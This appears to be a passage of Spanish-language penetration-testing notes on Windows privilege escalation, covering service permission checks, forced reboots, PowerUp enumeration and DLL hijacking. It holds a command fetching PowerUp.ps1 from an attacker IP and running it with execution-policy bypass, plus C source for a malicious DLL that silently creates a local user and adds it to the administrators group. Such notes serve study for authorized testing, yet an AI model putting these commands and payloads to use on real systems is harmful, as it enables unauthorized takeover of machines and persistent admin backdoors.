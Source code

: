 Si no tenemos los permisos suficientes, podemos revisar si tenemos acceso a reiniciar la maquina
```cmd
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
whoami /priv
shutdown /r /t 0
```
Ya deberíamos de ser admin
```cmd
Get-LocalGroupMember administrators
```
## PowerUp
```cmd
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```
## DLL Hijack

Standard DLL search order on current Windows versions

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```cmd
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls .\Documents\SERVICE.exe
```
Podemos reiniciar el servicio y revisar con procmon para ver cuáles dll usa
```cmd
Restart-Service SERVICE
```
Podemos imprimir el path utilizado para ver los dll, en caso de que tengamos acceso a editar un dll, entonces podemos cambiar el path y elevar privilegios
```cmd
$env:path
```
Cambiar el dll y agregar un usuario admin
```c
#include <stdlib.h>
#include <windows.h>
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
 switch ( ul_reason_for_call )
 {
 case DLL_PROCESS_ATTACH: // A process is loading the DLL.
 int i;
 i = system ("net user dave2 password123! /add");
 i = system ("net localgroup administrators dave2 /add");
 break;
 case DLL_THREAD_ATTACH: // A process is creating a new thread.
 break;
 case DLL_THREAD_DETACH: // A thread exits normally.
 break;
 case DLL_PROCESS_DETACH: // A process unloads the DLL.
 break;
 }
```
